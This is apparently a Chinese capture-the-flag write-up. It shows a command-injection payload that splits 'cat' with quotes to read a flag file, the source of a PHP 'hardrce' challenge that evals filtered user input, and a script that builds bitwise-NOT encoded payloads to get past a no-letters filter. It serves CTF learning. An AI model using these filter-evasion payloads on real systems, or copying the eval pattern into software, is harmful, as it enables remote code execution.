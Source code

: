 ![](https://i.loli.net/2021/10/11/cMQYOZh1AbKtzqd.png)

```
?url=ca''t /flllll?aaaaaggggggg | tee a.txt
```

![](https://i.loli.net/2021/10/11/ESqX8z2WPLZUIhl.png)



### hardrce

```php
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm']))
{
    $wllm = $_GET['wllm'];
    $blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];
    foreach ($blacklist as $blackitem)
    {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
        die("LTLT说不能用这些奇奇怪怪的符号哦！");
    }}
if(preg_match('/[a-zA-Z]/is',$wllm))
{
    die("Ra's Al Ghul说不能用字母哦！");
}
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
eval($wllm);
}
else
{
    echo "蔡总说：注意审题！！！";
}
?>
```

无字母数字rce，可以用yu师傅的脚本直接生成payload--

[无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）_羽的博客-CSDN博客](https://blog.csdn.net/miuzzx/article/details/109143413)

这里用取反

```php
<?php
//在命令行中运行

/*author yu22x*/

fwrite(STDOUT,'[+]your function: ');

$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

fwrite(STDOUT,'[+]your command: ');

$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
```
